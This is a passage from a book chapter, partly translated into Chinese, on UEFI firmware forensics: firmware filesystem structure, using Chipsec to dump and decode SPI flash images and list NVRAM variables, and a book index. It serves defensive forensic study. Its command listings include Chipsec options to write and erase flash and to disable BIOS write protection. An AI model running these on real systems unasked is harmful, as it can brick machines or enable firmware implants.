  - `EFI_FV_FILETYPE_FIRMWARE_VOLUME_IMAGE`：一个包含封装固件体积的文件。尽管 FFS 没有目录层次结构的概念，我们仍可以通过将固件模块封装在文件中，利用该文件类型创建类似树状结构。
  - `EFI_FV_FILETYPE_SECURITY_CORE`：包含在系统 (SEC) 启动阶段执行的代码和数据的文件。SEC 阶段是 UEFI 启动过程的第一阶段。
  - `EFI_FV_FILETYPE_PEI_CORE`：一个可执行文件，用于启动预系统初始化 (PEI) 阶段。PEI 阶段紧随 SEC 阶段之后。
  - `EFI_FV_FILETYPE_PEIM`：PEI 模块文件，包含在 PEI 阶段执行的代码和数据。
  - `EFI_FV_FILETYPE_DXE_CORE`：一个可执行文件，用于启动 `Driver Execution Environment` (`DXE`) 阶段。DXE 阶段紧随 PEI 阶段。
  - `EFI_FV_FILETYPE_DRIVER`：在 DXE 阶段启动的可执行文件。
  - `EFI_FV_FILETYPE_COMBINED_PEIM_DRIVER`：包含可在 PEI 和 DXE 阶段均可执行的代码和数据的文件。
  - `EFI_FV_FILETYPE_APPLICATION`：一个 UEFI 应用，是可在 DXE 阶段启动的可执行文件。
  - `EFI_FV_FILETYPE_FFS_PAD`：一个填充文件。

- 与操作系统常用的文件系统不同，FFS 文件不使用人类可读的文件名，而是通过 GUID 进行标识。

### 了解文件段

大多数存储在 FFS 中的固件文件由一个或多个离散部分组成，称为 `段`（尽管某些文件，如 `EFI_FV_FILETYPE_RAW` 文件，不包含任何段）。

段分为两类：叶片段和封装段。`叶片段` 直接包含数据，其类型由段头中的段类型属性决定。`封装段` 包含文件段，文件段可能包含叶片段或嵌套封装段。这意味着一个封装段可以包含另一个封装段。

下面的列表描述了一些常见的叶片段类型：

- `EFI_SECTION_PE32`：包含 PE 映像。
- `EFI_SECTION_PIC`：包含位置独立代码 (PIC)。
- `EFI_SECTION_TE`：包含 terse 可执行 (TE) 映像。
- `EFI_SECTION_USER_INTERFACE`：包含用户界面字符串，通常用于存储文件的人类可读名称，以及文件 GUID。
- `EFI_SECTION_FIRMWARE_VOLUME_IMAGE`：包含封装的固件映像。

下面是 FFS 规范中定义的几种封装段：

- `EFI_SECTION_COMPRESSION`：包含压缩的文件段。
- `EFI_SECTION_GUID_DEFINED`：根据由段 GUID 标识的算法对其他段进行封装。该类型用于签名段，例如。

这些对象构成了现代平台上 UEFI 固件的内容。取证分析师必须考虑固件中的每一个组件，无论是包含可执行代码（如 `PE32`、`TE` 或 `PIC`）的段，还是包含非易失性变量的数据文件。

为了更好地理解这些概念，请参阅 Figure 19-17，该图展示了 `CpuInitDxe` 驱动在固件体积中的位置。该驱动负责在 DXE 阶段初始化 CPU。我们将从下往上遍历 FFS 层次结构，以描述其在固件映像中的位置。


*Figure 19-17: The location of the CpuInitDxe driver in the BIOS region*

驱动的可执行映像位于 `PE32` 图像段 ➐。该段以及包含驱动名称 ➑、版本 ➒ 和依赖项 ➏ 的其他段，都位于 GUID 为 `{62D171CB-78CD-4480-8678-C6A2A797A8DE}` 的文件 ➎ 中。该文件属于封装的固件体积 ➎n。压缩段位于固件体积类型为 `{9E21FD93-9C72-4C15-8C4B-E77F1DB2D792}` 的文件 ➋ 中，该文件存储在顶层固件体积 ➊ 中。

此示例主要用于展示构成 UEFI 固件的对象层次结构，但这只是一种解析方式。

现在我们已经了解了 BIOS 区域的组织方式，接下来能够在其层次结构中导航并查找 BIOS 固件中存储的各种对象。

## 使用 Chipsec 分析固件映像

本节将讨论使用平台安全评估框架 Chipsec（[`github.com/chipsec/`](https://github.com/chipsec/)，如第 15 章所述）进行固件取证分析。本节将深入探讨工具的架构，并提供一些示例，展示 Chipsec 的功能和实用性。

该工具提供多种访问平台硬件资源的接口，如物理内存、PCI 寄存器、NVRAM 变量和 SPI 闪存。这些接口对取证分析师非常有用，后面将更深入地介绍它们。

请遵循 Chipsec 手册（[`github.com/chipsec/chipsec/blob/master/chipsec-manual.pdf`](https://github.com/chipsec/chipsec/blob/master/chipsec-manual.pdf)）中的安装指南进行安装和配置。手册还涵盖了大量功能，但本节仅聚焦于 Chipsec 的取证分析能力。

### 了解 Chipsec 架构

Figure 19-18 展示了工具的高层架构。


*Figure 19-18: The Chipsec tool’s architecture*

最底层是提供对系统资源访问的模块，例如内存映射 I/O 地址范围、PCI 配置空间寄存器以及物理内存。这些模块是平台依赖的，实现为内核模式驱动和 EFI 原生代码。（目前，Chipsec 为 Windows、Linux 和 macOS 提供内核模式驱动。）

大多数模块使用 C 语言编写，旨在在内核模式或 EFI Shell 环境中运行。

> **NOTE**
>
> UEFI Shell 是一个提供命令行界面的 UEFI 应用，用于固件交互，允许我们启动 UEFI 应用并执行命令。我们可以使用 UEFI Shell 检索平台信息、查看和修改启动管理器变量、加载 UEFI 驱动等。

在低层 OS 依赖组件之上，有一个 OS 无关的抽象层，称为 OS Helper，包含多个模块，用于隐藏与内核组件通信的 OS 特定 API，供应用层使用。这些模块实现于 Python。

OS Helper 模块位于底层，与内核组件通信；位于顶层，为硬件抽象层 (HAL) 提供 OS 无关的接口。

The HAL further abstracts the platform’s low-level concepts, like the PCI configuration registers and model-specific registers (MSRs), and it provides an interface for the Chipsec components located at the levels immediately above it: `Chipsec Main` and `Chipsec Util`. The HAL is also written in Python and relies on OSHelper to access the platform-specific hardware resources.

The two remaining components, located at the top of the architecture, provide the main functionality available to users. The first interface, Chipsec Main, is available through the `chipsec_main.py` Python script in the tool’s root folder. It allows us to execute tests that check the security configuration of certain platform aspects, run PoCs to test for the presence of vulnerabilities in system firmware, and more. The second interface, Chipsec Util, is available through the `chipsec_util.py` script. We can use it to run individual commands and access platform hardware resources to read the SPI flash image, dump the UEFI NVRAM variables, and so on.

We’re primarily interested in the Chipsec Util interface because it provides rich functionality for working with UEFI firmware.

### 使用 Chipsec Util 分析固件

You can find out the commands provided by Chipsec Util by running the `chipsec_util.py` script, located in the root directory of the tool’s repository, without specifying any arguments. Generally, commands are grouped into modules based on the platform hardware resources they work with. Here are some of the most useful modules:

- **acpi**：Implements commands for working with *Advanced Configuration and Power Interface* tables.
- **cpu**：Implements commands related to the CPU, such as reading configuration registers and obtaining information about the CPU.
- **spi**：Implements a number of commands for working with the SPI flash, like reading, writing, and erasing data. There is also an option for disabling BIOS write protection on systems with unlocked write protection (as discussed in Chapter 16).
- **uefi**：Implements commands for parsing UEFI firmware (the SPI flash BIOS region) to extract executables, NVRAM variables, and the like.

We can run `chipsec_util.py command_name`, where `command_name` is the name of the command we want to learn about, to output a description and usage information for that command. For instance, Listing 19-2 displays the output of `chipsec_util.py spi`.


# CHIPSEC: Platform Hardware Security Assessment Framework

[CHIPSEC] Version 1.3.3h

[CHIPSEC] API mode: using OS native API (not using CHIPSEC kernel module)

[CHIPSEC] Executing command 'spi' with args []

```
>>> chipsec_util spi info|dump|read|write|erase|disable-wp
[flash_address] [length] [file]
```

Examples:

```
>>> chipsec_util spi info
>>> chipsec_util spi dump rom.bin
>>> chipsec_util spi read 0x700000 0x100000 bios.bin
>>> chipsec_util spi write 0x0 flash_descriptor.bin
>>> chipsec_util spi disable-wp
```

*Listing 19-2: Description of and usage information for the spi module*

This is useful when we want to know the supported options for commands with self-describing names, like `info`, `read`, `write`, `erase`, or `disable-wp` ➊. In the upcoming examples, we'll primarily use the `spi` and `uefi` commands to acquire and unpack a firmware image.

## Dumping and Parsing the SPI Flash Image

First we'll look at `spi`, which allows us to perform firmware acquisition. This command uses the software approach to dumping the contents of an SPI flash. To obtain an image of the SPI flash, we can run the following:

```
chipsec_util.py spi dump path_to_file
```

where `path_to_file` is a path to the location where we want to save the SPI image. Upon successful execution of this command, this file will contain the flash image.

Now that we have the SPI flash image, we can parse it and extract useful information using the `decode` command (it's worth mentioning that the `decode` command by itself may be used to parse an SPI flash image obtained through the hardware method of firmware acquisition), like so:

```
chipsec_util.py decode path_to_file
```

where `path_to_file` points to a file with an SPI flash image. Chipsec will parse and extract data stored in the flash image and store it in a directory. We can also perform this task with the `uefi` command and `decode` option, like this:

```
chipsec_util.py uefi decode path_to_file
```

Once we successfully execute the command, we obtain a set of objects extracted from the image, such as executable files, data files with NVRAM variables, and file sections.

## Dumping UEFI NVRAM Variables

Now we'll use Chipsec to enumerate and extract UEFI variables from the SPI flash image. In Chapter 17, we briefly covered how to use `chipsec uefi var-list` to extract NVRAM variables. UEFI Secure Boot relies on NVRAM variables to store configuration data like its Secure Boot policy value, platform key, key exchange keys, and `db` and `dbx` data. Running this command will produce a list of all the UEFI NVRAM variables stored in the firmware image, along with their content and attributes.

These are just a few commands out of the Chipsec tool's rich arsenal. A comprehensive list of all Chipsec use cases would require a book of its own, but if you're interested in the tool, we suggest checking out its documentation.

This concludes our analysis of a firmware image with Chipsec. After executing these commands, we get the extracted contents of the firmware image. The next step in forensic analysis would be to analyze the extracted components individually, using tools specific to the type of extracted object. For instance, you can analyze PEI and DXE modules using IDA Pro disassembler, while you can browse UEFI NVRAM variables in a hex editor.

This list of Chipsec commands serves as a good starting point for further exploration of UEFI firmware. We encourage you to play with this tool and refer to the manual to learn its other capabilities and features in order to deepen your knowledge of firmware forensic analysis.

## Conclusion

In this chapter, we discussed important approaches to UEFI firmware forensic analysis: acquiring firmware, and parsing and extracting information from a UEFI firmware image.

We discussed two different ways to acquire firmware—the software approach and the hardware approach. The software approach is convenient, but it doesn't provide a completely trustworthy way of obtaining a firmware image from the target system. For this reason, we recommend the hardware approach, despite its higher difficulty.

We also demonstrated how to use two open source tools indispensable to analyzing and reverse engineering SPI flash images: UEFITool and Chipsec. UEFITool provides functionality for browsing, modifying, and extracting forensic data from an SPI flash image, and Chipsec is useful for performing many operations required in forensic analysis. The use of Chipsec also reveals how easily an attacker can modify the firmware image with a malicious payload, and so we expect interest in firmware forensics to significantly increase in the security industry.

## INDEX

### Numbers and Symbols

*`$IDADIR\loaders`* directory, 108

258SMM. *See* System Management Mode (SMM)

### A

Absolute Software, 280

`accept_file` routine, 109–110

ACM (Authenticated Code Module), 288, 299, 300, 340–342, 343, 344

ACRAM (Authenticated Code RAM), 288

Advanced Configuration and Power Interface (ACPI), 307

Advanced Encryption Standard (AES), 190, 197, 210, 211, 218

Advanced RISC Machine (ARM) architecture, 116

BMC implementation, 314

boot loaders, 347–348

Cortex-A, 347

Cortex-M, 347

implementations, 347

processors, 348

root of trust key, 350

Trusted Boot Board (TBB), 346, 347

Trust Zone, 346–347

Advanced Technology Attachment (ATA), 262

Aeroflot, 14

`afd.sys`, 179

AIDS (computer virus), 208

Airbus, 314

Alureon family of malware, 4. *See also* TDL3

antirootkits, 36, 41, 43

antivirus industry

challenges, 53, 180, 231

evolution, 175

first-wave bootkits, reaction to, 133

Gapz (*see* Gapz)

hooks, antivirus (*see* hooking)

origins, 50

software, 4, 43, 70, 180

vendors, 4, 297

aPlib, 151, 152, 164

Apple, 286, 289, 308, 312, 365

operating system, 50–51

PRx protections, 295–296

Apple II, 50–51

Aptiocalypsis (INTEL-SA-00057), 263

ARM (Advanced RISC Machine) architecture. *See* Advanced RISC Machine (ARM) architecture

array of flash data (FDATAX) register, 372, 373, 374

ASCII, 218

Assist, 14

ATA (Advanced Technology Attachment), 262

Authenticated Code Module (ACM), 288, 299, 300, 340–342, 343, 344

Authenticated Code RAM (ACRAM), 288

Avatar, 10

### B

base58 decoding algorithm, 218

BASE64, 190

Baseboard Management Controller (BMC), 288, 289, 313, 314–315

`BaseNamedObjects`, 182

Basic Input/Output System (BIOS). *See also* BIOS Guard

accessibility, 101

Authenticated Code Module (ACM), 288, 299, 300, 340–342, 343, 344

boot code, 152, 215

boot process, role in, 256

bootkit target, as, 58

bootkit, evolution of, 258

bootup, 50

bypassing, 365

Compatibility Support Mode, 215

complexity, 256

default behavior, early PCs, 50

DISK_ADDRESS_PACKET, 104

disk service, 101

entry point, 101

evolution, 52

EXTENDED_GET_PARAMS, 102, 103

extended read operations, 103

firmware implant, 291

firmware managed by, 286–187

infection methods, 265

installation, 289

interrupt handler, 87

interrupts, 50, 51, 52

legacy, 233, 234, 235

boot process flow, 236

MBR code in, 238

UEFI, vs., 236, 237, 243

malicious boot loader sectors, 103, 104

malware, history of, 256

BIOSkit, 257

Chernobyl, 256–257

evolution, 258, 261

Mebromi, 257

WinCIH, 256–257

MBR, and, 96. 97. 257

nonpersistent implant, 291

outdated, 292

parameter block, 64, 106

persistent implant, 291

protection bits, 310

set-up, legacy processes, 59

set-up, Windows, 60

setup menu, 280

system initialization, 229

System Management Interrupt (SMI) handler (*see* System Management Interrupt (SMI) handler)

UEFI infections, 265–267, 286

DEX driver, modifying, 269

Option ROM, modifying, 267–269

vulnerabilities, 289–290

Update App, 305

Update Driver, 305

updates, 286, 296, 297

vulnerabilities, during updates, 296

vulnerabilities, post-exploitation, 290, 291

BCD (Boot Configuration Data). *See* Boot Configuration Data (BCD)

BDS (Boot Device Selection), 244

BIOS Guard, 253, 293, 297, 298

BIOSkit, 257

BIOS Lock Bit, 298

BIOS Lock Enabled (BLE), 263, 310

BIOS Parameter Block (BPB), 186–187, 188, 222

BIOSWE, 263

BIOS Write Enable, 263

BIOS Write Protection, 310

Bitcoin, used by ransomware, 209

Black Hat conference, 53, 267

Black Hat Asia, 272

Black Hat Vegas, 307, 311

BLE (BIOS Lock Enabled), 263

Blue Screen of Death (`BSoD`), 86–87

`BMC` (`Baseboard Management Controller`), 288, 289, 313, 314–315

`Bochs` emulator

`bochsrc.bxrc`, 117

`bochssdbg.exe`, 120

booting, 118

code interpretation, 116

configuration file, 121

debugger, 120–121, 123–124

disk image, `infecting`, 119–121

dynamic analysis, in context of, 120

environment, creating, 117–119

IDA Pro, combining with, 116, 118, 123–124

installing, 117

origins, 116

Boot Configuration Data (`BCD`)

boot variables, 66, 67, 75

execution flow, role in, 68

layout, 66

parameters, 64

reading, 88

store, 249

UEFI, use by, 247, 249

Boot Device Selection (`BDS`), 244

Boot Guard, 205, 253

Authenticated Code Module (`ACM`), 288, 299, 300, 340–342, 343, 344

BIOS protection, 297, 298

boot code, early, 288

boot flow, 339

boot policy manifest (`BPM`), 343–344

chain of trust, 344

configuring, 343–345

FIT entries, 342–342

integrity checking, 299

Measured Boot, 339, 342

OEM root public key, 350

process root, 293

root of trust, 312

technology overview, 299–300

Verified Boot, 339, 342, 350

vulnerabilities, 300–301

bootkits, 49

boot sector infectors (BSIs), 50, 51–52, 59

Brain virus, 51

components, 96

development, 255–256

digital signature checks, bypassing, 52–53

ELAM, bypassing (*see* Early Launch Anti-Malware (ELAM) module)

Elk Cloner, 50

evolution of, 51–53

functionality, 255–256

Gapz (*see* Gapz)

goal of, 55

Load Runner, 51

Master Boot Record (MBR) (*see* Master Boot Record (MBR))

modern, 53–54

processor execution mode switch, handling of, 66

proofs of concept (PoCs), 53, 54

resurgence of, 233

Secure Boot (*see* Secure Boot)

technology, 12

Volume Boot Record (VBR) (*see* Volume Boot Record (VBR))

bootloaders, 335

fallback, 266

operating system, 237, 242

Petya, in (*see* Petya)

Satana, in (*see* Satana)

Unified Extensible Firmware Interface (UEFI), in (*see* Unified Extensible Firmware Interface (UEFI))

`bootmgr` module, 62, 64

Gapz bootkit, use by, 189

hooking, 161, 189

loading, 108, 160

protected mode, 65, 66

real mode, 65

TDL4 infection, 87

Bootmgr partition, 62

boot process, Microsoft Windows, 57–58

BIOS, role of, 60

`bootmgr`, 64

BCD (Boot Configuration Data) boot variables, 66, 67

real mode vs. protected mode, 65

`winload.exe`, loading, 67

components, 60

configuration data, 64

flow of, 58–59

Initial Program Loader (IPL, 62–64

legacy-based machines, 58

Master Boot Record (MBR, 60–61)

code modification infections, 84–85 (*see also* TDL4)

Microsoft Windows drive layout, 62

partition table, 61–62

preboot environment, 60

Volume Boot Record (VBR, 61–64)

`bootvid.dll`, 67

`BotDos.sys`, 31, 32

botnet, Festi. *See* Festi rootkits

bot plug-in manager, 19

`BotSock.sys`, 31, 33–34

`BotSpam.sys`, 31

bot trackers, 137

BPB (BIOS Parameter Block, 186–187, 188, 222

Brain virus, 51, 59

Bring Your Own Linker, 7–8

BSoD (Blue Screen of Death, 86–87)

Bulygin, Yuriy, 338

### C

C&C (command and control) server. *See* command and control (C&C) server

C++ compiler, 237

Cache-as-RAM (CAR), 288

call conventions, modern OS, 101

Capsule Update, 242, 246, 274–275

Carberp trojan malware, 171

CDFS, 38

debugging strings, 172–173

development, 171–173

dropper enhancements, 173–174

hooking, 173

CBC (cipher block chaining) mode, 194, 211

`.cdata`, 16

CDO (control device object), 38, 39

certificate authority (CA), 75–76

Certificate Table Data Directory, 322

chain of trust, 298, 344

Chernobyl virus, 256–257

Chipsec, 264, 303, 324, 367, 386–388, 390

`ci.dll`, 67, 74

callbacks, 77

information regarding, 78

initialization, 77

routines, 76–77

cipher block chaining (CBC) mode, 194, 211

`clfs.dll`, 67

click fraud, 207

CloseHandle, 11

CmRegisterCallbackEx, 36

Code Integrity, 248

code-patching, 195

command and control (C&C) server, 15

communication protocol, 22, 204

domain names, 26, 30

Festi botnets, role in, 15–16, 21, 26–27

IP address, 26

Olmasco, relationship between, 137

parser, 17

plug-ins, malicious, 31

ransomware, communication with, 211

TCP protocol, relationship between, 26

Command Prompt, 324

Compatibility Support Module (CSM), 234

Component Object Model (COM), 138

compute_checksum, 230

Computrace, 275, 280–281, 283

configuration information manager, 19

control device object (CDO), 38–39

Core Wars, 44

CreateFile, 11, 226

CreateFileX, 142

CreateModule, 20

CryptoLocker, 209

CTB-Locker, 209

Cubi2, 264

Cylinder Head Sector (CHS)-based addressing, 101

Czarny, Joffrey, 315

### D

DDoS (distributed denial of service) botnets. *See* distributed denial of service (DDoS) botnets

debuggers

32-bit code, 126

64-bit code, 126

Bochs emulator, in (*see* Bochs emulator)

detection of, 5

GNU debugger (*see* GNU Debugger (GDB))

kernel, 44–45, 67, 250

protocol, kernel debugger, 67

remote, 45

Rovnix, interface in, 161

serial, 88

stability, 124

strings, in Rovnix, 172–173

Windows, in, 41

DebugMonitor, 227

Dediprog SF100 ISP Programmers, 375

DeleteModule, 20

Device Guard, 80–81, 250, 255

DeviceIoControl, 204, 226

DEVICE_OBJECT, 9, 24

DGA (domain name generation algorithm), 30

Diffie-Hellman key agreement algorithm, 218

digital rights management (DRM), 43

Direct Kernel Object Manipulation (DKOM), 36

direct memory access (DMA) attacks, 292

DiskNumber parameter, 213

disk service, 60

distributed denial of service (DDoS) botnets, 13–14

Assist, against, 14

Festi botnet (*see* Festi rootkits)

plug-ins, jobs of, 15

DLLs (dynamic-link libraries), 6, 87

DNS flooding, 32

DogmaMillions, 4

domain name generation algorithm (DGA), 30

downloader infectors, 15, 134

dr0, 22

dr3, 22

DRAM (dynamic random access memory), 295

Driver Execution Environment (DXE), 244, 264, 265–266, 269

BIOS phase, 278

boot phase, 293, 297, 299–300

Computrace, in, 281, 283

drivers, 300, 305–306, 320, 321

firmware implants, target of, 291

nonprivileged, 289

rkloader driver, 277

UEFI, in, 299

DRIVER_OBJECT, 5, 9

DriverObject field, 9

DRIVER_OBJECT modification, 357–359

DriverSection, 5

DRM (digital rights management), 43

Dropbox, 209

droppers, 134

debug information in, 226

defining, 15

description, 15

downloader, vs., 134

enhancements, in Carberp, 173–174

Gapz installation, use in, 177, 178–179, 180–181

manifest, 151

resources, 134–135

Satana, in (*see* Satana)

DualBIOS technology, 366

DXE (Driver Execution Environment). *See* Driver Execution Environment (DXE)

dynamic analysis, 115–116

dynamic-link libraries (DLLs), 6, 87

dynamic random access memory (DRAM), 295

### E

Eagle, Chris, 112

Early Launch Anti-Malware (ELAM) module, 69

boot-start drivers, classifying, 71

bypassing, by bootkits, 72

callback routines, 70

known bad driver, 71

known good driver, 71

policy, 71–72

ecc_cc_public key, 217

EDK2 kit, 267, 304, 332, 336

eEye, 53

EFI images, 298

EFI partition tables, 238

EFI system partition (ESP), 266

Electronic Code Book (ECB) mode, 168

Elk Cloner, 50

Elliptic Curve Cryptography (ECC), 209, 211

Embeded Controller (EC), 287, 298

Embedi, 313

emulators, 116

Bochs emulator (*see* Bochs emulator)

malware detection, 153

QEMU, 116

Endpoint Detection and Response (EDR) 方法 (第 45 页)

Equation Group, 262

event notification callbacks, 36–37

evil maid attacks, 291

EX_CALLBACK_FUNCTION, 70

explorer.exe, 164, 181, 183

EXTENDED_GET_PARAMS, 102–103

### F

FADDR (flash address) register, 370, 373

fallback bootloader, 266

FastIO, 40

FAT32, 38, 193

FEK (file encryption key), 210

Festi rootkits

antidebugging techniques, 22

anti-virtual machine techniques, 20–21

architecture, 13

C&C protocol parser, 17

communications protocol, 19

initialization phase, 26

work phase, 26–27

concealment methods, 22–24

DDoS attacks, 31, 32

domain name generation algorithm (DGA), implementation of, 30

driver, 17

encrypted strings, 16

forensics software, bypassing, 27–28

hooking, 22, 23

memory manager, 17

Microsoft Windows x86 platform target, 15

network sockets, 17

object-oriented framework of, 17

origins, 14

plug-in manager, 17, 19–20

popularity, 14

proxy plug-in, 33–34

proxy services, 31

registry key, 25

rootkit distribution, 15

security, bypassing, 27–28

spam modules, 31–32

FFS (firmware filesystem), 384, 385–386

field-programmable fuse (FPF), 293, 300

file encryption key (FEK), 210

FILE_OBJECT, 23

filesystems, hidden, 351–352

HiddenFsReader, 360–362

images, parsing, 360

miniport storage driver, 354–355

DEVICE_OBJECT modification, 359

direct patching of, 356–357

storage device stack layout, 355–356

usage, 362

finite state machine, 298

firewalls, Windows, 34

firmware, 261–262

anomalies, detecting, 205

filesystem, 384, 385–386

graphics card, 262

hard drive (HDD/SDD), 262

peripheral devices, for, 262

platform-specific nature of, 364

Power Management Unit (PMU), 287

rootkits, 320 (*see also* specific rootkits)

protecting against, 205

security issues, 205

system-to-system variations, 262

types, 262

UEFI, in (*see* Unified Extensible Firmware Interface (UEFI))

firmware filesystem (FFS), 384, 385–386

firmware implants, 256

Firmware Interface Table (FIT), 340, 342

firmware Trusted Platform Module (fTPM), 288

flash address (FADDR) register, 370, 373

Flashrom, 375, 379

forensics, firmware analysis, BIOS firmware image, 365–366

emergence of, 364

importance, 364–365

limitations of, 364

FPF (field-programmable fuse), 293, 300

fsbg.efi module, 279

FT2232H Mini Module, 377, 379

FT2232 SPI programmer, 375

### G

GangstaBucks, 4

Gapz, 10, 83, 92–93, 106

antimalware software, self-defense against, 194–196

C&C servers, communication with, 204, 206

command executor code, 200

complexity, 177

detection name, 179

DLL loader code, 199–200

dropper, 177, 178–179

algorithm, 180

analysis, 180–181

HIPS, bypassing, 181–183, 184

modifying Shell_TrayWnd procedure, 184–185

EXE loader code, 200–201

filesystem, hidden, 190, 197

functionality, 177–178, 186, 191–193, 199

hacker disassembler engine (HDE), 196

hooking, 190, 194–195, 202, 253

infection technique

BIOS parameter block, reviewing, 186–187

kernel-mode driver, malicious, loading, 189–190

VBR, infecting, 187, 188–189, 190

installation, 177, 178–179

kernel-mode code, 178

kernel-mode driver, 189, 190

kernel-mode module, 190, 195

memory allocation, 198–199

name, origin of, 178

network architecture, 206

payload communication interface, 201–202, 204

payload injection, 196–199

pre-Vista operating systems, use on, 199

purpose, 189

security software checks, bypassing, 195

shellcode, 182, 184–186

Shell_TrayWnd, 182, 184

storage, hidden, 193–194

VBR target, 145, 235

Win32/Gapz.A, 179

Win32/Gapz.B, 179

Win32/Gapz.C, 177, 178

Gazet, Alexandre, 315

GDB, *See* GNU Debugger (GDB)

Gigabyte, 272

Gigabyte Brix platform, 272

GitHub, 304, 310

Global Descriptor Table, 10, 162

Globally Unique Identifier (GUID), 235, 386, *See also* GUID Partition Table (GPT)

GNU Debugger (GDB), 116

IDA, combining with, 126–130

protocol, 126

VMware, combining with, 124–126

Google, 365

GpCode malware, 208

Graphics Processing Unit (GPU), 288

GUID Partition Table (GPT), 213

boot flow, 239

driver, using SweetScape to parse, 241

fields, 241

header, 240–241

infection, using Petya, 214–215

partition scheme, 215, 236

partitions, number of, 235–236

partitions, size of, 236

specifics, 238–241

support, checking on Windows, 240

UEFI support, 235–236

### H

hacker disassembler engine (HDE), 196

Hacking Team, 244, 275, 363

hal.dll, 67, 246

Hardware Abstraction Layer (HAL)

abstraction, 250

interface, 388

library, 246

module, 246

wrapper, 245

Hardware Sequencing Flash Control (HSFC) register, 370–371, 373

Hardware Sequencing Flash Status (HSFS) register, 370–371

Hardware Verified Boot (HVB), 350

HBA (Host Bus Adapter), 9

Heasman, John, 267

HECI (Host-Embedded Controller Interface), 312

Hex-Rays, 136, 249, *See also* IDA Pro

HiddenFsReader, 360–362

hidden sectors, 187–188

hooking

benign, 43

bootmgr module, 161, 189

Carberp malware, 173

definition, 7

detection, 196

Festi, in, 22–23

Gapz, in (*see* Gapz)

manipulating object data, 41

placing hooks, 8

rootkits restoring hooks, 43

TDL3 techniques (*see* TDL3)

ZwEnumerateKey, 25

Host Bus Adapter (HBA), 9

Host-Embedded Controller Interface (HECI), 312

Host Intrusion Prevention System (HIPS), 34, 36, 177

bypassing, 180, 181–183, 184

Endpoint Detection and Response (EDR) methods, 45

HSFC (Hardware Sequencing Flash Control) register, 370–371, 373

HSFS (Hardware Sequencing Flash Status) register, 370–371

HTTP flood, 32

HTTP protocol, 204

HTTP proxy, 207

HVB (Hardware Verified Boot), 350

Hypervisor-Enforced Code Integrity (HVCI), 81

Hyper-V hypervisor, 130, 250

### I

IAT (Import Address Table), 20, 197, 200

IDAPathFinder, 249

IDA Pro, 95

BIOS disk services, analyzing

accessibility, 101

DISK_ADDRESS_PACKET, 104

entry point, 101

EXTENDED_GET_PARAMS, 102–103

extended read operations, 103

malicious boot loader sectors, reading, 103–104

MBR drive parameters, 102

MBR partition table analysis, 104–106

Bochs emulator, combining with, 116, 118, 123–124

database, 98

decryption, 153

defaults, 97

disassembly, 98, 249

Gapz, combining with, 180

GDB debugger, combining with, 126–130

MBR, analyzing

decryption, 96, 99

drive parameters, 102

entry point analysis, 98–99

loading, 96, 97–98

MBR drive parameters, 102

MBR partition table analysis, 104–106

memory management, 99–100

MBR loader, writing custom, 108–109

accept_file, 109–110

loader.hpp, 109

load_file routine, 110–111

partition table, importing, 111

memory allocation, 127

scripting engine, 99

VBR analysis techniques

kernel-mode driver, analyzing, 108

malicious boot loader, analyzing, 107–108

VM, attaching to, 127

IDT (Interrupt Descriptor Table), 10, 162

Import Address Table (IAT), 20, 197, 200

Initialize, 18

Initial Program Loader (IPL), 62

decryption, 152–153, 156, 159, 160

Rovnix, creating code modification, 151–152, 159, 235

TDL4 infection, 91–92

Input/Output Control (IOCTL) codes, 10

Input/Output Request Packet (IRP) *See* Input/Output Request Packet (IRP)

Instruction Set Architecture (ISA), 288

INT 13h. *See* interrupt 13th handler (INT 13h)

integrated graphics processing unit (iGPU), 288

Integrated Sensor Hub (ISH), 287

Intel, 80, 253, 267

200 Series, 367

Active Management Technology (AMT), 288, 313–314

Advanced Threat Research (ATR) group, 275

Baseboard Management Controller (BMC), 288, 289, 313, 314–315

Boot Guard (*see* Boot Guard)

Embedded Controller (EC), 287, 298

GBE, 380

gigabit network, 287

Integrated Sensor Hub (ISH), 287

### J

jmp instructions, 153, 156–158

### K

Kallenberg, Corey, 264, 307, 338

Kaspersky Lab, 262, 275

kdcom.dll, 67, 87–88

KdDebuggerEnabled, 22

KEK (key exchange key), 329, 337

kernel integrity, Microsoft Windows, 3

kernel rootkits, stealth mission of, 7

Kernel-Mode Code Signing Policy, 7, 12

bootkits, effectiveness against, 51, 52–53, 64, 73

bypassing, 133

ci.dll module (*see* ci.dll)

disabling, 52, 67

driver signatures, 73–74

effectiveness, 270

integrity checks, 73

introduction of, 73, 233

legacy code integrity weakness, 74–76

rootkit development, impact on, 255, 319

kernel-mode drivers

configuration information, 16

DriverUnload, 203

duties of, 15

kernel-mode modules, 190, 195, 196

kernel-mode programming, 13–14

kernel, system. *See* system kernel

key exchange key (KEK), 329, 337

key manifest (KM), 344

KLDR_DATA_TABLE_ENTRY, 5

known bad driver, 71

known good driver, 71

### L

Lambert, John, 36

language-theoretic security, 105

LBA (logical block address), 11, 101–102, 240, 241

legacy-based machines, boot process, 58

legacy code, integrity weakness, 74–76

LegbaCore researchers, 314

Lenovo Thinkpad T540p, 324, 330, 375–376

Linker, Bring Your Own, 7–8

linking, 7–8. *See also* hooking

Linux, 17, 95, 118

loader.hpp, 109

Load Runner, 51

local privilege escalation (LPE), 178–179, 224

logical block address (LBA), 11, 101–102, 240, 241

LoJack. *See* Computrace

LOJAX, 297

lwIP library, 170–171

### M

Macronix MX25L6473E, 379

MajorFunction array, 357–358

Management Engine (ME). *See* Intel Management Engine (ME)

Master Boot Record (MBR, 58

bootloaders, 212

decrypting, 99

entry point, analyzing, 98–99

infection techniques, 83, 84

input parameters, 99–100

loaders, 108–109

loading, into IDA Pro, 96–97

memory allocation, 99, 100

modification by infecting bootkit, 98–99

overwriting, with Shamoon, 210

partition tables, 90–91, 104–105, 109, 111, 138–139, 151, 235, 239

Protective, 239

unmodified, 152

master file table (MFT), 209, 212, 216

Matrosov, Alex, 272, 275, 289, 300, 306

mbedtls library, 216

mbr.mbr, 120

MD5, 190

ME (Management Engine). *See* Intel Management Engine (ME)

Mebromi, 257

Mebroot, 53

memory protection bits, 263, 264

Microsoft. *See also* Windows, Microsoft

digital signature checks, 52

event notification methods, 36

kernel debugger, 45

Miller, Charlie, 262

miniport storage driver, 354, 355, 359

ModR/M, 196

MS-DOS, 50, 208

MSI Cubi2, 264

### N

Necurs rootkit, 76

.NET metadata directory, 7

Network Address Translation (NAT), 33

Network Driver Interface Specification (NDIS), 53, 170–171, 204

NIST 800-147, 293

NIST 800-147B, 293

Nmap, 22

nonvolatile random access memory (NVRAM) variable, 236, 239, 242, 244, 246, 281, 323, 388, 390

npf.sys, 21

NTFS, 38, 92, 187, 209, 221, 223

NTFS parser, 277

ntldr bootloader, 64

NTLM, 22

